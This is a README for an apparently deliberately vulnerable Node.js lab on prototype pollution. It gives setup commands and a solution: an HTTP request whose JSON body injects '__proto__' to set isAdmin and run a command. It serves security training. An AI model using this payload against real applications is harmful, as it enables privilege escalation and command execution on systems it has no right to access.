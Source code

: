 # Hands On Lab For Prototype Pollution

[![Build Status](https://api.travis-ci.org/joemccann/dillinger.svg?branch=de)](https://travis-ci.org/joemccann/dillinger)

This lab environment helps you to try prototype pollution in practice, the aim is to exploit prototype pollution to change priviledge of the user from user to admin and execute commands.

##### Docker Mode

You can run it as a docker instance by executing the following commands :: 
  ```
 $ npm install
 $ docker build -t webapp .
 $ docker run -p 80:80 -d webapp
  
  ```


##### Node Application

You can run it using node by executing the following commands ::

  ```
 $ npm install
 $ node app.js
  ```
  
#### Solution

```
 
POST /addnote HTTP/1.1
Host: localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
content-type: application/json
Content-Length: 139
 
{"auth": {"name": "test", "password": "test"}, "note": { "text": "bla",
"command":"ls",
 "__proto__": {"isAdmin": true}}}

```
   
